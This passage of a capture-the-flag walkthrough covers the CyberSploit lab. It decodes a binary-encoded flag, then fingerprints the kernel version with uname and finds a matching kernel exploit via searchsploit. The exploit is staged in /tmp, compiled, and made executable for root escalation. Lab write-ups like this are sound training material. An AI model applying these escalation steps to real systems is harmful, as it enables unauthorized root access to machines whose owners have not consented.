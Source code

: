Flag 2 – User Home

```bash
itsskv@cybersploit-CTF:~$ ls
Desktop  Documents  Downloads  examples.desktop  flag2.txt  Music  Pictures  Public  Templates  Videos
itsskv@cybersploit-CTF:~$ cat flag2.txt
01100111 01101111 01101111 01100100 00100000 01110111 01101111 01110010 01101011 00100000 00100001 00001010 01100110 01101100 01100001 01100111 00110010 00111010 00100000 01100011 01111001 01100010 01100101 01110010 01110011 01110000 01101100 01101111 01101001 01110100 01111011 01101000 01110100 01110100 01110000 01110011 00111010 01110100 00101110 01101101 01100101 00101111 01100011 01111001 01100010 01100101 01110010 01110011 01110000 01101100 01101111 01101001 01110100 00110001 01111101
itsskv@cybersploit-CTF:~$ 
```
We have found second flag as some compinations on 0101 it represents binary. Lets try to decrypt it by using online website. - **Cryptii:** Binary decoder tool. [Cryptii Binary Decoder](https://cryptii.com/pipes/binary-decoder)

![Screenshot from 2024-04-13 12-50-26](https://github.com/f141ne0/f141ne0.github.io/assets/165682600/ae8cd8be-f860-4b72-a65b-b23ea35e0d2f)


**5. Privilege Escalation – User to Root**

To elevate privileges to the `root` user and locate the final flag, we first checked the kernel version using the command `uname -a`:

```bash
itsskv@cybersploit-CTF:~$ uname -a
Linux cybersploit-CTF 3.13.0-32-generic #57~precise1-Ubuntu SMP Tue Jul 15 03:50:54 UTC 2014 i686 i686 i386 GNU/Linux
```

With this information, we then searched for potential exploits on Exploit-DB using `searchsploit` to identify a suitable exploit. The search led us to an exploit applicable to the Linux kernel version `3.13.0`. 

![Screenshot from 2024-04-13 13-02-29](https://github.com/f141ne0/f141ne0.github.io/assets/165682600/a3054dc5-dc99-47aa-9d10-a2a2c5413709)


We copied the exploit code and saved it in the `/tmp` directory as `exploit.c`.

```bash
itsskv@cybersploit-CTF:/tmp$ nano exploit.c
```

Choosing the `/tmp` directory for this purpose is strategic because it typically has permissions that allow for file creation and execution by users, making it a common location for staging files during exploitation.

After saving the exploit code, we compiled it using `gcc` and granted execution permissions to the resulting binary file using `chmod +x`:

```bash
itsskv@cybersploit-CTF:/tmp$ gcc exploit.c -o exploit
itsskv@cybersploit-CTF:/tmp$ chmod +x exploit
```

Executing the compiled exploit triggered the exploitation process, which involved spawning threads, mounting, and creating necessary files such as `/etc/ld.so.preload` and a shared library, ultimately granting us `root` access:
